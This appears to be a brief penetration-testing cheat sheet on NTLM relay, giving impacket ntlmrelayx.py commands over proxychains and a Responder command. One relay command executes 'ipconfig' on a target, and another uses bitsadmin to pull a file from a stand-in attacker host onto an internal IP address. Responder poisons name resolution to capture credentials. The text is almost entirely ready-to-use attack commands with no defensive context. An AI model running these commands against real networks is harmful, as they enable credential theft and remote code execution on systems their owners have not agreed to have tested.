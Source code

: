 # NTLM relay

### impacket ntmlrelay.py

```csharp
proxychains sudo ntlmrelayx.py --no-http-server -smb2support -t <TARGET>  -c 'cmd /C ipconfig' 
```

```csharp
proxychains sudo ntlmrelayx.py --no-http-server -smb2support -t 172.16.54.14  -c 'cmd /C bitsadmin.exe /Transfer hehe http://attacker/stcreat.html'
```

### Responder

```csharp
sudo responder -I tun0
```

